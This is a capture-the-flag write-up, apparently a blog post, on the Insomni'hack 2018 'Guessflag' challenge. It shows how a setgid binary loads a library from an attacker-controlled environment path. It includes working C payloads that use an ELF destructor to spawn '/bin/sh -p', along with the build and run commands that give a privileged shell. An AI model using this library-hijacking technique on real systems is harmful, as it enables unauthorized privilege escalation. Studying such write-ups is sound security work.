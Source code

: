 ### Guessflag
Guessflag was a **warmup pwn** at insomnihack 2018. It was a **fairly easy challenge**, but we struggled a lot on small details.

### The challenge
We were given a ssh connection on a remote server, and the challenge was in `/home/flag` .
There were a shared lib, dowin.so, the main binary, guessflag, and a text file, flag.txt.
**We can see that guessflag was setgid and the group "flag" was the owner of both the flag.txt file and the guessflag binary**.
```
user1@insomniak:/home/flag$ ls -al
total 32
drwxr-xr-x  2 root root  4096 Mar 26 13:18 .
drwxr-xr-x 12 root root 4096 Mar 26 12:50 ..
-rwxr-xr-x  1 root root  7512 Mar 26 12:50 dowin.so
-rwxr-sr-x  1 root flag  8520 Mar 26 12:51 guessflag
-rw-r-----  1 root flag   262 Mar 26 13:18 flag.txt
```
With those informations, we know that we probably have to exploit the guessflag binary to run commands as the "flag" group and cat our flag.txt file, which certainly contain our flag.

### Analysis
Lets start with some analysis of the binary.

First we look at the output of the file command. 
```
user1@insomniak:/home/flag$ file guessflag                                                                                                                      
guessflag: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```
It tell us that it is **compiled as a dynamic binary** , which means it rely on the libc of the remote server for standard functions like printf and that stuff. We could hook a standard function using  [LD_PRELOAD trick](https://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) , but from my little experience , i known that **LD_PRELOAD is ignored when the binary is setuid or setgid**, which is the case here.

So let's move on and look at ltrace's output.
```
user1@insomniak:/home/flag$ ltrace ./guessflag                                                                                                                    
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
+++ exited (status 255) +++
```
Nothing fancy here, let's try with an argument.
```
user1@insomniak:/home/flag$ ltrace ./guessflag arg                                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = nil
snprintf("(null)/dowin.so", 1024, "%s/dowin.so", nil)                                                                   = 15
dlopen("(null)/dowin.so", 1)                                                                                            = 0
+++ exited (status 255) +++
```

Uuh! Looks like it **first check  if we have an argument , and if there is one it try to get the content of the environnement variable CHECK_PATH**.
Let's try to set this variable : 
```
user1@insomniak:/home/flag$ CHECK_PATH=test ltrace ./guessflag arg                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = "test"
snprintf("test/dowin.so", 1024, "%s/dowin.so", "test")                                                                  = 13
dlopen("test/dowin.so", 1)                                                                                              = 0
+++ exited (status 255) +++
```

Yup, so it looks like it **append the content of the environnement var CHECK_PATH to the string "/dowin.so" and then try to dlopen it**. Which means that if we set the CHECK_PATH variable to something like `/tmp/pld` and create our own dowin.so in this directory, it will load it !

### Exploit

We've never met the dlopen function before, but it's a really easy-to-understand function.
It simply open the given shared file and give you the ability to execute the function it provide.

The problem here is that we can't create a random function, and simply load our library. Our function will never be called. 

Here we struggled a bit, and Geluchat gave us a neat trick : **you can use the [.fini section](http://l4u-00.jinr.ru/usoft/WWW/www_debian.org/Documentation/elf/node3.html) by creating a destructor in our dowin.so, and it will execute it when the lib is unloaded** (e.g when the binary exit).

So it gave use a payload like this :

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
	system("id && whoami");
}


```

We setted up the exploit in tmp : 

```
user1@insomniak:/home/flag$ mkdir /tmp/pld && cd /tmp/pld
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ export CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
uid=1005(user1) gid=985(users) groups=985(users)
user1
```

Yeah nice , our destructor got executed !
But wait ... it dropped the rights :( Why this ?

We struggled like 2 hours on this, and we then asked for a bit of help to a Securimag member.
**He told us that on this machine, /bin/sh was a symlink to /bin/bash, which by default drop  the setgid and setuid rights when it is called**.
And with a `man system` , we can easily figure out that `system()` simply call `/bin/sh` with it's argument.

He also told us that **the '-p' argument on /bin/sh prevent it to drop the rights**.

That gave us our second payload : 

```c
void begin (void) __attribute__((destructor));

void begin (void) {
	char *envp[] = { NULL };
	char *argv[] = { "/bin/sh", "-p", NULL };
	execve("/bin/sh", argv, envp);
}
```

```
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ export CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
user1@insomniak:/tmp/pld$ id
uid=1005(user1) gid=985(users) groups=985(users), 990(flag)
```

Yey ! We have a shell with the `flag` group :D

### Flag
```
user1@insomniak:/tmp/pld$ cat /home/flag/flag.txt
INS{th4t_library_was_usele$$}
```
